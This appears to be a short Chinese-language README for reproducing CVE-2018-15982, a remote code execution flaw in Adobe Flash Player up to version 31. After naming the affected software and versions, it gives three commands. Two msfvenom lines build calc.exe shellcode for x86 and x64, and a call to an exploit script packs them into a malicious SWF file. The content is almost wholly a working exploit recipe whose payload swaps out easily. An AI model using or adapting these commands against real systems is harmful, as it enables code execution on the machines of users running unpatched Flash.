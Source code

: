 # CVE-2018-15982 REC

_影响软件_
+ Flash Player

_影响版本_
+ =< 31.x


## 复现

 
    
    msfvenom -p windows/exec cmd=calc.exe -f raw > 86.bin

    msfvenom -p windows/x64/exec cmd=calc.exe -f raw > 64.bin

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o apt.swf

